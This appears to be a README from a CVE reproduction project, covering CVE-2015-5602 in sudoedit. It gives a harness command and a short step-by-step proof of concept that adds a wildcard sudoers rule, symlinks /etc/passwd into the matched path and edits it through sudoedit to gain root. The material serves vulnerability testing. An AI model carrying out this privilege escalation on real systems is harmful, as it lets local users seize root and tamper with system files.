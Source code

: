 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python cve_debian.py --number 2015-5602 --release bullseye --directory sudoedit --selenium
```

### Simple testing method

```shell
adduser haxor
echo "haxor ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su haxor
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/haxor/demo/test.txt # Should be working
```
You can edit the file and then get root access.
